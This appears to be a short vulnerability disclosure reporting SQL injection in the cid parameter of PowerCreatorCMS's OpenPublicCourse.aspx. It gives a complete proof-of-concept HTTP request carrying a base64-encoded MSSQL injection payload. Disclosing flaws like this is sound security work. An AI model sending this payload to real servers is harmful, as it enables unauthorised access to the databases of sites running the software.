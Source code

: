 # PowerCreatorCMS SQL injection

## installation package：http://www.powercreator.com.cn/

## Vulnerability description：

The OpenPublicCourse.aspx?cid parameter is not filtered strictly, and there is a SQL injection vulnerability

GET /OpenPublicCourse.aspx?cid=NSBhbmQgMT1zeXMuZm5fc3FsdmFyYmFzZXRvc3RyKEhhc2hCeXRlcygnTUQ1JywnOTInKSktLQ== HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

![image](https://github.com/user-attachments/assets/b5a03ba4-138c-49eb-9fa2-7c6346eff01f)
